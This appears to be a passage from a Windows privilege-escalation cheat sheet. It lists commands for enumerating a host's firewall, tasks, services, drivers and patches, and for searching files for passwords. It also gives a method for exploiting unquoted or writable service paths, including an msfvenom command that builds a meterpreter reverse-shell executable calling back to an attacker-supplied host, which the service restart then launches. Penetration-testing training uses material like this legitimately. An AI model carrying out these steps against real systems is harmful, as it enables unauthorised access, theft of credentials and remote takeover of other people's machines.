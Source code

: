 ```sudo -l (NOTE: lists commands a user can run as root) ```
	To check for firewall settings:

	netsh firewall show state

	netsh firewall show config

	Use the following command to check the scheduled tasks:

	schtasks /query /fo LIST /v

	To check running processes linked to services:

	tasklist /SVC

	To check for running services:

	net start

	To check for installed drivers:

	DRIVERQUERY

	With the following command you can check for installed patches:

	wmic qfe get Caption,Description,HotFixID,InstalledOn

	Search for interesting files names.

	The following command searches the system for files that contain ‘password’ in the filename:

	dir /s *password*
	
	You can also search file contents for specific keywords, such as the password. The following command searches for the keyword ‘password’ in files with the .txt extension:

	findstr /si password *.txt
	
**Search for Unquoted Service Paths:**

	wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
	
	sc qc [service name]
	
	icacls [Directory]
	
	icacls "C:\Program Files\Program"
	
	Create a reverse shell payload:
	msfvenom -p windows/meterpreter/reverse_tcp -e LHOST=[LHOST IP] LPORT=443 -f exe -o Some.exe
	
	sc stop [service name]
	sc start [service name]
	
**Modifying the binary service path:**

	To display services that can be modified by an authenticated user type:

	accesschk.exe -uwcqv "Authenticated Users" * /accepteula

	A service with write permissions for an authenticated user will look like the following:

	RW [service name] SERVICE_ALL_ACCESS
```
